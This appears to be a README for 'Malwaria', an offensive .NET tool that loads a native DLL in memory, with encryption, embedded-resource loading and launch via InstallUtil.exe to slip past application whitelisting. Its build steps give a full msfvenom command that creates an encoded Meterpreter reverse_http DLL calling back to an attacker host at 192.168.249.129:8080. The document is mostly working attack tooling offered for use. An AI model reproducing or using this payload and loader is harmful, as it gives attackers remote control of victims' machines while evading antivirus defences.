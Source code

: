 # Malwaria
Execute Native DLL from .NET 

Based on https://github.com/Scavanger/MemoryModule.net

Added Crypto Support
Added Ability To Execute From Resource
Added Ability to be launched via InstallUtil.exe

Rough Prototype
1. Create The DLL:
<Embedded Sample>
./msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 3 -f dll  -a x86 LHOST=192.168.249.129 LPORT=8080 > msf.dll

2. Add DLL To Project

3. Compile and Execute 

